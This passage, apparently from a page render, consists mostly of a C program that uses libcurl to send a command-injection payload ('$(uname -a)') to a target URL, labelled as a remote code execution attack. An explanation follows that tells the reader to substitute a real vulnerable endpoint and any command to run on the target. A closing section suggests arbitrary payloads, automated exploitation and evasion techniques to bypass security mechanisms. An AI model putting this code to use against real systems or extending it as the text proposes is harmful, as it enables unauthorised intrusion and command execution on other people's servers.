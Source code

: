 ```c

    // Craft malicious payload for RCE
    char payload[1000];
    snprintf(payload, sizeof(payload), "%s?input=$(uname -a)", TARGET_URL);
    curl_easy_setopt(curl, CURLOPT_URL, payload);

    // Perform the RCE attack
    res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        fprintf(stderr, "Error performing RCE attack: %s\n", curl_easy_strerror(res));
        curl_easy_cleanup(curl);
        exit(EXIT_FAILURE);
    }

    // Cleanup libcurl
    curl_easy_cleanup(curl);
}

int main() {
    printf("Starting Remote Code Execution (RCE) attack...\n");

    // Perform the RCE attack
    perform_rce();

    printf("RCE attack completed.\n");

    return 0;
}
```

#### Explanation:

- The `perform_rce` function demonstrates an RCE attack by using libcurl to make a request to a vulnerable endpoint with a crafted payload containing a command execution.
- In this example, the target endpoint URL is hardcoded (`http://example.com/vulnerable_endpoint`). Replace this with the actual URL of the vulnerable endpoint in the target application.
- The crafted payload executes the `uname -a` command to retrieve system information. Replace this command with any other command you want to execute on the target system.
- This example utilizes the libcurl library for making HTTP requests. Make sure to link your program against libcurl (`-lcurl`).

#### Further Development:

To make this tool more versatile and powerful, you can enhance it with the following features:

- Support for crafting custom payloads to execute arbitrary commands or scripts on the target system.
- Integration with web vulnerability scanners or automated testing frameworks to identify and exploit RCE vulnerabilities in target web applications.
- Implementation of techniques such as payload encoding or evasion to bypass security mechanisms and execute commands on protected systems.

